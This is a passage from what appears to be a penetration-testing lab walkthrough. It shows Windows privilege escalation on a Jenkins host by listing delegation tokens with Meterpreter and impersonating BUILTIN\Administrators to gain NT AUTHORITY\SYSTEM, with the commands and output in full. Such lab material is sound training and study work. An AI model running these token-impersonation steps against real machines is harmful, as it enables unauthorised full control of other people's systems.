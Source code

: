 ```
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled

PS C:\Program Files (x86)\Jenkins>
```

- To check which tokens are available, enter the `list_tokens -g`.


```
meterpreter > list_tokens -g

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

meterpreter >

```

We can see that the BUILTIN\Administrators token is available.

- Use the `impersonate_token "BUILTIN\Administrators"` command to impersonate the Administrators' token. 

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter >
```
